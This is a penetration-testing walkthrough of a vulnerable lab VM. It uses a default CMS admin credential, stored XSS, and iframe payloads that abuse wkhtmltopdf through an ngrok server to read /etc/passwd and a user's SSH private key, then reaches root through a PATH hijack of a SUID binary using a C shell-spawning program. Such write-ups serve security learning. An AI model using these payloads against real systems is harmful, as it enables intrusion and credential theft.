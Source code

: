 # ITSTAR - Pentesting Methodology

As prepared, a vulnerable Debian (amd64) machine was built, deployed and was running in VMware.

![](https://i.ibb.co/kgVBc5L/image.png)



## Host discovery

![](<https://i.ibb.co/5rZ6jBK/image.png>)

The machine is configured to use **Bridge** so i will scan the subnet of my **eth0** .



![](<https://i.ibb.co/WcVNCV5/image.png>)

<center><b>sudo netdiscover -r 192.168.1.0/24</b></center>

The IP `192.168.1.113` definitely belongs to the machine so the next step is to gather information about the server, starting with port scanning.



## Information Gathering

![](<https://i.imgur.com/uMmXHkK.png>)

<center><b>nmap -sC -sV -oN machine.nmap -p- 192.168.1.113</b></center>

Scanning all TCP port resulted in port 22 (SSH) and 80 (Webserver) running. I will enumerate the webserver for more information about the server (which CMS is running, leftover files (backup) ),...



![](<https://i.imgur.com/G3fDB7r.png>)

Directory listing was enabled.



![](<https://i.imgur.com/jzL28G4.png>)

The website wasn't finished, so just had a **Login** function without **Register** function. I tried to fuzzing the login but all the tries were failed.



![](<https://i.imgur.com/s1scxNJ.png>)

The webserver generated itself a token for each time i login, so it's definitely not brute-force-able. And SQLi technique were also failed.

But the website left a detail which led to it was a custom open-source CMS (https://github.com/ionutvmi/master-login-system).



![](<https://i.imgur.com/JyxIwQK.png>)



After looking at the source code, i spotted in `install.php`, the author left pre-defined admin credential.

```php
$sqls[] = "
  INSERT INTO `".$prefix."users` (`userid`, `username`, `display_name`, `password`, `email`, `key`, `validated`, `groupid`, `lastactive`, `showavt`, `banned`, `regtime`) VALUES
(1, 'admin', 'Admin', '7110eda4d09e062aa5e4a390b0a572ac0d2c0220', 'admin@gmail.com', '', '1', 4, ".time().", 1, 0, ".time().");";
  foreach($sqls as $sql)
    if(!isset($page->error) && (!$db->query("?p",$sql)))
      $page->error = "There was a problem while executing <code>$sql</code>";
  if(!isset($page->error)) {
    $page->success = "The installation was successful ! Thank you for using master loging system and we hope you enjo it ! Have fun ! <br/><br/>
    <a class='btn btn-success' href='./index.php'>Start exploring</a>
    <br/><br/>
    <h3>USER: admin <br/> PASSWORD: 1234</h3>";
```

Which the default credential was `admin` - `1234`.

After logging in, there were 2 another function:

* Edit profile

* Export profile to PDF format




![](<https://i.imgur.com/VFJByH7.png>)



> Edit profile:

![](<https://i.imgur.com/Ad6I2YT.png>)

Information gathered:

* Username: limits characters `(Username too short or too long !)`
* Display name: doesn't limit the length of characters
* Emails: validates for email type

Due to no validation on `Display name`, i tested HTML Injection + XSS and they worked.

###### HTML Injection:



![](<https://i.imgur.com/heAf0p4.png>)



###### Stored XSS:



![](<https://i.imgur.com/bkR6uGn.png>)



> Export profile:

![](<https://i.imgur.com/s7oBOtl.png>)



The server returned a PDF object in response then the browser would read that object as a PDF file. It parsed everything in the HTML profile but i had to check how the server did it.

![](<https://i.imgur.com/iUOCeDy.png>)



The server used `wkhtmltopdf` as backend to convert HTML content into PDF object. With known software used + version i could search for the exploit.



![](<https://i.imgur.com/uy9J6fS.png>)



## Exploitation

Knowing that SSRF bug can give me local file access so i would try to read `/etc/passwd` using XSS with `iframe` + redirect the connection to the `/etc/passwd` file. But in order to control the inbound connection, i had to redirect the connection to whatever link or file i wanted. So i tried to redirect the connection to a specific website and export into the PDF so that the `iframe` will be included in.

Payload:

```html
<iframe width='800' height='2000' src='http://icanhazip.com'></iframe>
```



![](<https://i.imgur.com/2fLNwFN.png>)



It was successfully redirected. So now i need to read the `/etc/passwd` file. I had to redirect to the file using `file://` URL scheme.

> Building server:

![](<https://i.imgur.com/cRP3y3B.png>)



Payload:

```html
<iframe width='800' height='2000' src='http://469c2c15.ngrok.io/?f=/etc/passwd'></iframe>
```



Response:

![](<https://i.imgur.com/88x5WsL.png>)



So i was able to read the file, and i looked for "live" users to find their SSH private key (port 22 is open). Starting with user `gemini1`. I looked for the path `/home/gemini1/.ssh/ida_rsa`.



Payload:

```html
<iframe width='800' height='2000' src='http://469c2c15.ngrok.io/?f=/home/gemini1/.ssh/id_rsa'></iframe>
```



Response:

![](<https://i.imgur.com/WrGnL3R.png>)



## Privilege Escalation:

![](<https://i.imgur.com/mCmcvOi.png>)



Successfully logged in, i enumerated around to check for misconfigured files or leftover datas to escalate to `root` to fully control the server.

I was looking for some binary files which has SUID, SGID or Sticky bit permission in order to get root.



![](<https://i.imgur.com/UxuRSMN.png>)



There was a newest modified binary file which also had 4000 (SUID) permission.

> **SUID** (Set User ID) is a kind of permission given to a file. It will appear on the execution bit of the file owner's permission. When the file has such permission, the caller will temporarily obtain the permission of the owner of the file.

So i dumped the binary file to my local machine to do Reverse Engineering



![](<https://i.imgur.com/GIA2QQP.png>)



Started analyzing with Ghidra to get pseudo code.

![](<https://i.imgur.com/V69N2FG.png>)



As the flow the C code, the binary file called 4 processes, first 3 processes were called with specific path but not the last. I could spoof `date` binary file to spawn a shell as `root`. By doing this, i appended the home directory (`/home/gemini1/`) to the current $PATH as first element containing a compiled `date` file which calls `/bin/bash` as `root`.



> date.c

```c
#include <sys/types.h>
#include <unistd.h>
#include <stdlib.h>

int main() {
  setuid(0);
  setgid(0);
  system("/bin/bash");
}
```



![](<https://i.imgur.com/t2y620y.png>)



> Appending path



![](<https://i.imgur.com/lFF1hSA.png>)



> Escalated as root



![](<https://i.imgur.com/qkXL3QG.png>)